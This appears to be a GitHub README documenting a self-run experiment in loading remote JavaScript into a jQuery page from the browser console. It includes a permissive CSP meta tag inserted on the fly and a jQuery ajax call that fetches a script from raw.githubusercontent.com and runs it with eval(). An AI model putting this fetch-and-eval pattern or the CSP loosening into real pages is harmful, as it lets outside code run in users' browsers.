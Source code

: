 # xss-injection-test

This project is a prof-og-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget

We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>

## Code to inject
The goal is to inject the code of this file on the page:

```
https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js
```

# First try (Brave)

we execute in console:

```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

### Result:

```
VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
```

## Second try. Add dinamically CSP

We execute in console

```javascript
function dynamicallyInsertCSP() {
        let metaElement = document.createElement("meta");
        metaElement.setAttribute("content", "default-src 'self' 'unsafe-inline' *.githubusercontent.com;")
        metaElement.setAttribute("http-equiv", "Content-Security-Policy");
        document.head.appendChild(metaElement);
};

dynamicallyInsertCSP();

function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

And we check we have this tag at the HEAD:

```
<meta content="default-src 'self' 'unsafe-inline' *.githubusercontent.com;" http-equiv="Content-Security-Policy">
```

But when executing injection we get the same result

## Third try. Import as text

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js' + new Date().getTime(),
    success: function (data){
        eval(data);
      //parse your data here
      //you can split into lines using data.split('\n') 
      //an use regex functions to effectively parse it
    }
  });
```

in this case we get the console message:

```
owned
```

This method works event wiouth creating the META tag!

